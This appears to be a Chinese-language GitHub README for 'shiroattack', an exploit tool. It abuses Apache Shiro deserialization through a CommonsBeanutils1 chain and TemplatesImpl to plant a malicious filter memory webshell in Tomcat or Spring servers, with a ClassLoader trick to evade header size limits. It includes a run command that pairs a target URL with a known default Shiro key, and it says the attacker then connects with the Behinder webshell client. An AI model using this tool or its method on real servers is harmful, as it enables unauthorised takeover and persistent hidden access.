



# 

就是看了别人的文章，调试了一下漏洞，加了一个发包，变成了利用工具



- P牛给shiro无CC依赖的CB1链来进行注入内存马

- `TemplatesImpl`来动态加载字节码触发其逻辑，从而注入恶意filter

- 利用自定义ClassLoader的方式绕过maxHttpHeaderSize

  理论上存在漏洞都能写成

## 使用方法

```
java -jar xxx.jar url key type(spring/tomcat)
```

```
java -jar shiroattack-1.0-SNAPSHOT-jar-with-dependencies.jar http://localhost:8080/shirodemo_war/index.jsp kPH+bIxk5D2deZiIxcaaaA== tomcat
```

然后冰蝎直接连就行了



参考原文：

[利用shiro反序列化注入冰蝎内存马 - 先知社区 (aliyun.com)](